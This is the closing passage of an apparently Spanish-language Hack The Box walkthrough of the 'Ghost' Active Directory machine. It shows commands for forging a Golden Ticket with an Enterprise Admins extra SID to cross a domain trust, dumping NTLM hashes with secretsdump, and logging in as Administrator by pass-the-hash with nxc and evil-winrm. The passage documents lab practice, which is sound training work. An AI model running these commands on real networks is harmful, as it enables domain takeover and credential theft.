
</p>

#### Generando Golden Ticket personalizado para administrador en corp.ghost.htb

En este punto, para realizar el `Golden Ticket Attack` deberemos de disponer de los siguientes puntos claves.

- Clave aes256_hmac del usuario krbtgt --> esta clave nos servirá para generar el Golden Ticket.
    
- Domain SID --> deberemos de disponer del Domain SID del dominio `CORP.GHOST.HTB`.
    
- Extra SID --> deberemos de disponer del sid de un grupo de alto privilegio del dominio `GHOST.HTB`.
    

En este caso, estamos añadiendo el **SID del grupo "Enterprise Admins"** del dominio `GHOST.HTB`, lo que significa que cuando generemos el Golden Ticket en el dominio **corp.ghost.htb**, también dispondremos de permisos en `GHOST.HTB` como si fuéramos miembro de "Enterprise Admins".

#### ¿Para qué sirve esto?[](https://gzzcoo.gitbook.io/walkthroughs/active-directory/insane/ghost#para-que-sirve-esto)

- **Enterprise Admins** es un grupo con privilegios **altos en toda la estructura de dominios**, lo que permite **administrar otros dominios dentro del bosque**.

- Como disponemos una relación de confianza entre **corp.ghost.htb** y `GHOST.HTB`, podemos **movernos lateralmente** y escalar privilegios en `GHOST.HTB`.

- Básicamente, con este **Golden Ticket**, podemosactuar como un **Administrador de Dominio en** `GHOST.HTB`, aunque originalmente solo teníamos acceso en `CORP.GHOST.HTB`.


Realizaremos el `Golden Ticket` y dispondremos del archivo `Administrator.ccache` que utilizaremos para autenticarnos como `Administrator` en el dominio `GHOST.HTB.`

```
impacket-ticketer -aesKey b0eb79f35055af9d61bcbbe8ccae81d98cf63215045f7216ffd1f8e009a75e8d -domain-sid S-1-5-21-2034262909-2733679486-179904498 -extra-sid S-1-5-21-4084500788-938703357-3654145966-519 -domain corp.ghost.htb Administrator
```

Importaremos el `Administrator.ccache` en la variable `KRB5CCNAME` y verificaremos que el Ticket Granting Ticket (TGT) del usuario `Administrator` es válido.

```
export KRB5CCNAME=Administrator.ccache
klist
```

<p align="center">

</p>

```
secretsdump.py dc01.ghost.htb -k -no-pass -just-dc-ntlm
```

Hash de Administrator **1cdb17d5c14ff69e7067cffcc9e470bd**

```
nxc winrm 10.129.231.105 -u 'Administrator' -H '1cdb17d5c14ff69e7067cffcc9e470bd'
```

<p align="center">

</p>

```
evil-winrm -i 10.129.231.105 -u 'Administrator' -H '1cdb17d5c14ff69e7067cffcc9e470bd'
```

> *Evil-WinRM* PS C:\Users\Administrator\Documents> type ../Desktop/root.txt
> `9aa9bfa2************************`

## Conclusión

El análisis de seguridad realizado sobre la máquina **GHOST** evidencia un entorno fuertemente interconectado donde la acumulación de fallos de configuración, falta de sanitización de entradas y gestión inadecuada de privilegios permitieron comprometer la totalidad de la infraestructuraActive Directory y sus dominios asociados (`GHOST.HTB` y `CORP.GHOST.HTB`). La cadena de ataque inició en la superficie web externa mediante inyecciones en la lógica de autenticación y lectura arbitraria de archivos en contenedores aislados. Posterior al acceso inicial, deficiencias en el control de acceso de Active Directory (como la delegación de permisos DNS y lectura de cuentas gMSA), combinadas con la exposición de material criptográfico crítico de ADFS y configuraciones permisivas en bases de datos vinculadas, facilitaron el escalado de privilegios vertical e horizontal hasta el control total del Controlador de Dominio principal.